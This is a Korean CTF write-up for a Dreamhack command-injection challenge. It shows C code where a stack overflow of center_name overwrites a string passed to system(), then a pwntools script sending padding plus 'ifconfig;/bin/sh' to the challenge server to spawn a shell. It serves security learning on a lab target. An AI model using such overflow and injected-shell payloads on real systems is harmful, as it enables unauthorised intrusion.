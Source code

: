 # Exploit Tech: Command Injection

![image](https://github.com/user-attachments/assets/d45df683-36b4-4023-99dc-57b9cb60a5df)

**문제 코드**

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int main()
{

    char cmd_ip[256] = "ifconfig";
    int dummy;
    char center_name[24];

    init();

    printf("Center name: ");
    read(0, center_name, 100);

    if( !strncmp(cmd_ip, "ifconfig", 8)) {
        system(cmd_ip);
    }

    else {
        printf("Something is wrong!\n");
    }
    exit(0);
}
```

코드를 쭉 보니 center_name 에 오버플로우가 일어나므로   
cmd_ip 자리에 원하는 문자를 쓸 수 있을 거 같다.   
 
그리고 cmp_ip 앞 8자리를 검사하는 코드가 있으므로 ifconfig 은 넣고 그 뒤에 메타 문자와 원하는 코드를 쓰면 될 것 같다.  

<br>

![image](https://github.com/user-attachments/assets/83a9f5d2-cc80-4c14-bb2d-be8d1bd72e96)  
read 전에 브레이크를 걸어주고  
A 24바이트를 넣어줬다.
<br>

![image](https://github.com/user-attachments/assets/b9b476ff-206f-4340-927a-d8268bb582d7)  
![image](https://github.com/user-attachments/assets/b55ece03-b843-49f2-a794-1142e04f79fd)  

각 변수들이 스택 어디에 저장되어 있는지 알 수 있으므로  
쓰레기값 32바이트 + ifconfig + ; + 원하는 코드  
를 쓰면 원하는 동작을 이끌어 낼 수 있을거다.  


**익스플로잇 코드**
```python
from pwn import *

p = remote("host3.dreamhack.games", 8866)

payload = b'A'*24
payload += b'B'*8
payload += b'ifconfig'
payload += b';/bin/sh'

p.send(payload)
p.interactive()

```

이제 이걸 보내면

![image](https://github.com/user-attachments/assets/749975dd-9434-41de-8e5d-3c2f8eeb831a)

답을 쉽게 얻을 수 있다.
